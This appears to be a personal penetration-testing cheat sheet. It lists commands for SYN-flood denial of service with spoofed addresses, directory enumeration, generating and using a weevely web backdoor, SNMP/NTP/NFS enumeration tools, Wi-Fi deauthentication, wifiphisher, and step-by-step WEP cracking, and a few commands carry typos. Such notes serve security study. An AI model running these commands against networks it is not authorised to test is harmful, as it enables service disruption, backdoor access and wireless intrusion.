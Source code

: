 /* DoS */
- Metasploit
	. use auxillary/dos/tcp/synflood
	. set rhost, rport, sport(spoofable port, default random)
- hping3
	. hping3 -S(syn) <target> -a <spoofableIP> -p <port> --flood
	. to use UDP, instead of -S use -2
	. udp can be used to exploit: voip, ntp, rpc, netbios, tftp, snmpv2
/*--*/
************************************
/* Site enum */
- uniscan: directory scan
	. uniscan -u http://<> -we(file check)|-q(directory|)
- gobuster
	. gobuster dir -u <url> -w <wordlist>
- Vega
- weevely: generates backdoor
	. weevely generate <pswd> <o/p path>
	. upload shell
	. weevely <url> <pswd>
/*--*/

/* Check loadbalancer */
-lbd <site>
-dig <Site>
/*--*/

/// SNMP
2 pswd: public to read config, private to remote edit config
SNMP Enum: used to obtain hosts, routes, routing table, shares etc

Tool: snmpcheck, softperfect network scanner, netwrok performace monitor, oputils, prtg network monitor, engineer's toolset

/// NTP
Tools: ntptrace, ntpdc, ntpq, nmap

/// NFS
Tools: rpcscan, superenum

*************************
/* Wireless Hacking */
- airmon-ng
	. airmon-ng start wlan0
	. airmon-ng check kill: to kill processes interfering
	. wash -i wlan0mon

	. airodump-ng wlan0mon: list of detected access point
	. airodump-ng --bssid <bssid> wlan0mon
	. airplay-ng --deauth 15(# of death packets) -a <accessPoint BSSID> -c <clientBSSID> wlan0mon
- wifiphisher --force-hostapd

/*WEP Crack*/
	. airmon-ng start wlan0
	. airodump-ng wlan0mon
	. airodump-ng wlan0mon --encrypt wep: only search for WEP(optional)
	. aireplay-ng -9 -e <accessPoint> -a <BSSID> wlan0mon: inject packet
	. airodump-ng --bssid <bssid> -c 1 -w WEPcrack wlan0mon: capture Initialization Vector
	. aireplay-ng -3 -b <bssid> -h <station> wlan0mon: generate arp traffic
	. aircrack-ng WEPcrack-01.cap
